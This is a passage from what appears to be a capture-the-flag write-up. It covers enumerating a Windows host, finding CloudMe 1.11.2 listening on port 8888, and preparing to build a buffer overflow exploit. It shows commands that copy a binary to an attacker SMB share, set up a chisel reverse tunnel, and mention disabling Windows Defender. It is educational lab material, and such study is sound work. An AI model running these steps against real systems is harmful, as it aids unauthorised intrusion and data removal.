 
### CloudMe buffer overflow

Enumerating the home directory of "shaun" I find a CloudMe_1112.exe file 

```bash
C:\Users\shaun>tree /a /f
tree /a /f
...<snip>...
+---Downloads
|       CloudMe_1112.exe
```

I also find a process listening on port 8888, by  using a oneliner I can identify that is indeed CloudMe running at different intervals of time.

```bash
C:\Users\shaun>netstat -noa
TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       1284

C:\Users\shaun> for /f "tokens=5" %a in ('netstat -ano ^| findstr :8888') do wmic process where processid=%a get Caption,CommandLine

C:\Users\shaun>wmic process where processid=1540 get Caption,CommandLine 
Caption      CommandLine  
CloudMe.exe  
```

> There are various public buffer overflow exploits for cloudme 1.11.2 in the [exploit-db](https://www.exploit-db.com/) database, but for the case of this writeup I'll explain the process of how to create a basic buffer overflow exploit. 

First I'll copy the cloudme executable to my machine, I will do this through a smb share 

1. On my linux machine
```bash
$ impacket-smbserver smbFolder `pwd` -smb2support
```

2. On the target windows machine
```bash
C:\Users\shaun\Downloads>copy CloudMe_1112.exe \\10.10.14.13\smbFolder\
```

Then I import and install the executable and create a direct link to my desktop in a windows 10 virtual machine where I will use [xdbg](https://x64dbg.com/) specifically the 32 bit version x32dbg and with its respective plugin [ERC](https://github.com/Andy53/ERC.Xdbg) to debug the binary.

I also import chisel on the windows_debug machine to expose the port 8888, note that is necessary to disable windows defender in real time to make use of chisel.

1. to expose the internal port first I create a chisel server on my linux machine
```bash
$ ./chisel_1.7.3_linux_amd64 server --reverse --port 1234
```

2. on the windows_debug machine I connect the chisel client to my server

```bash
C:\Users\user\Desktop>chisel_1.7.3_windows_amd64 client 192.168.56.1:1234 R:8888:127.0.0.1:8888
```
